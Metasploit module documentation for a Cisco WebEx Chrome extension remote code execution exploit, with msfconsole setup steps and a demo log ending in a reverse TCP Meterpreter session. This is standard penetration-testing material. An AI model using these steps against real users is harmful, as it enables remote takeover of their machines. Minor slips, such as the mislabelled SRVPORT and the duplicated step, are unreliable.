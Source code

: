 Cisco WebEx is a suite of applications for online meeting organization and video conferencing.
Included in this suite are extensions for popular web browsers which ease use and provide supplemental
features.

Version 1.0.1 of the WebEx extension for Google Chrome contains a vulnerability which allows an
attacker to execute arbitrary commands on a target, which can lead to arbitrary remote code execution.


## Vulnerable Application

Cisco WebEx Chrome Extension 1.0.1 is known to be affected.

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/browser/cisco_webex_ext```
3. Do: ```set SRVHOST [IP ADDRESS]```
4. Do: ```set SRVPORT [PAYLOAD NAME]```
5. Do: ```set URIPATH [ARBITRARY URI]```
6. Do: ```Choose a payload and set any specific options```
6. Do: ```run```, after a target browses to the generated URL, you should receive a session like the following:

## Demo

```
msf > use exploits/windows/browser/cisco_webex_ext
msf exploit(cisco_webex_ext) > set srvhost 10.6.0.151
srvhost => 10.6.0.151
msf exploit(cisco_webex_ext) > set srvport 4567
srvport => 4567
msf exploit(cisco_webex_ext) > set uripath not_a_very_good_meeting
uripath => not_a_very_good_meeting
msf exploit(cisco_webex_ext) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.6.255.229:4444
[*] Using URL: https://10.6.0.151:4567/not_a_very_good_meeting
[*] Server started.
msf exploit(cisco_webex_ext) > [*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/cwcsf-nativemsg-iframe-43c85c0d-d633-af5e-c056-32dc7efc570b.html
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Sending exploit html ...
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/qt3iFe8N
[*] 10.6.0.151       cisco_webex_ext - From:
[*] 10.6.0.151       cisco_webex_ext - Sending payload ...
[*] Sending stage (957487 bytes) to 10.6.255.229
[*] Meterpreter session 1 opened (10.6.255.229:4444 -> 10.6.255.229:57472) at 2017-01-26 13:27:28 -0600

msf exploit(cisco_webex_ext) >
```

